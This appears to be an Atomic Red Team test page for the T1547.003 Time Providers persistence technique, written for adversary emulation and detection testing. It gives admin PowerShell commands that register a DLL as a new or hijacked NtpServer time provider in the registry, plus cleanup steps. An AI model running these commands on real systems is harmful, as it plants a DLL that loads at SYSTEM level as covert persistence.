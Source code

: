 ```yaml
---
tags: [T1547_003, atomic_test]
filename: "[[T1547.003|T1547.003 - Time Providers]]"
---
```

# T1547.003 - Time Providers

## Atomic Test #1 - Create a new time provider
Establishes persistence by creating a new time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The new time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** df1efab7-bc6d-4b88-8be9-91f55ae017aa






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
<br/>

## Atomic Test #2 - Edit an existing time provider
Establishes persistence by editing the NtpServer time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** 29e0afca-8d1d-471a-8d34-25512fc48315






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Windows\SYSTEM32\w32time.DLL" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "0" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "0" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
